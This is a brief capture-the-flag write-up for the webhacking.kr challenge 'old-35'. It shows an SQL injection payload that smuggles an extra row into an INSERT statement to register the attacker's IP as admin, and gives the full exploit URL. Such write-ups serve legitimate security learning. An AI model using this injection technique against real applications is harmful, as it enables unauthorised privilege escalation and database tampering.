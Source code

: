 ```yaml
---
layout: default
title: old-35
---
```




another sql injection.
here this is the payload we insert: 
id=`1` phone=`1),(%27admin%27,%27{your-ip}%27,2`

which is equivalent to `1),('admin','{your-ip}', 2`.

I checked before and learn how the insert command is looks like, the format is like this: `INSERT Values(id, IP, phone)`

then, when he sees your IP address has admin id, it solves the challenge.

```
https://webhacking.kr/challenge/web-17/index.php?id=1&phone=1),(%27admin%27,%27185.177.125.211%27,2
```
